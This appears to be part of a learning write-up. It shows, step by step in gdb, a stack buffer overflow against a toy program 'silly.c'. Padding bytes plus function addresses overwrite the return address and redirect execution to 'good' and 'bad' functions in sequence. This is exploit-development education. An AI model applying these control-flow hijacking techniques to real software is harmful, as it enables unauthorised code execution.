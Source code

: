 - Let's change execution to `good` function by overflowing the stack:

```sh
(gdb) r 66 `python3 -c 'import sys; sys.stdout.buffer.write(b"\x41" * 48 + b"\xc1\x91\x04\x08")'`
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".

Breakpoint 1, vuln (n=66, str=0xffffd27e 'A' <repeats 48 times>, "\301\221\004\b") at silly.c:15
15        int i = 0;
(gdb) c
Continuing.

Breakpoint 2, vuln (n=0, str=0xffffd27e 'A' <repeats 48 times>, "\301\221\004\b") at silly.c:21
21        while( i < n ){
(gdb) c
Continuing.
The world is yours.

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
(gdb) c
Continuing.

Program terminated with signal SIGSEGV, Segmentation fault.
The program no longer exists.
```

- I can also make it point to multiple stuff, function after function, here I've made it call `good` then `bad` then `good` again:

```sh
(gdb) run 66 `python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*48+b"\xc1\x91\x04\x08"+b"\x96\x91\x04\x08"+b"\xc1\x91\x04\x08")'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".

Breakpoint 2, main (argc=3, argv=0xffffd074) at silly.c:29
29        vuln(atoi(argv[1]), argv[2]);
(gdb) c
Continuing.

Breakpoint 1, vuln (n=66, str=0xffffd28c 'A' <repeats 48 times>, "\301\221\004\b\226\221\004\b\301\221\004\b") at silly.c:15
15        int i = 0;
(gdb) c
Continuing.
The world is yours.
You've been naughty!
The world is yours.

Program received signal SIGSEGV, Segmentation fault.
0xffffff00 in ?? ()
```
